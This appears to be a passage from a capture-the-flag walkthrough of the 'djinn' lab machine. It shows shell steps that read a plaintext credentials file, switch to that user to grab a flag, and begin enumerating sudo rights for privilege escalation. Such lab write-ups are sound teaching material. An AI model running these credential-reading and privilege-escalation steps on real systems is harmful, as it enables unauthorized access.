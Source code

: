 cat /home/nitish/.dev/creds.txt

nitish:p4ssw0rdStr3r0n9

Switching to nitish user and obtaining user flag.

www-data\@djinn:/opt/80\$ su nitish

su nitish

Password: p4ssw0rdStr3r0n9

nitish\@djinn:/opt/80\$ cd /home/nitish

cd /home/nitish

nitish\@djinn:\~\$ ls

ls

user.txt

nitish\@djinn:\~\$ cat user.txt

cat user.txt

10aay8289ptgguy1pvfa73alzusyyx3c

Privilege Escalation (Rooute \#1)
---------------------------------

### Enumerating for Possible Escalation Vector.

nitish\@djinn:/opt/80\$ sudo -l

sudo -l

Matching Defaults entries for nitish on djinn:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User nitish may run the following commands on djinn:

(sam) NOPASSWD: /usr/bin/genie

It looks like nitish can run /usr/bin/genie as the user sam.

nitish\@djinn:/opt/80\$ ls -laht /usr/bin/genie

ls -laht /usr/bin/genie

\-rwsr-x--- 1 sam nitish 71K Nov 11 19:09 /usr/bin/genie

Let's check out the help for the executable.

nitish\@djinn:/opt/80\$ genie -h

genie -h

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

I know you've came to me bearing wishes in mind. So go ahead make your wishes.
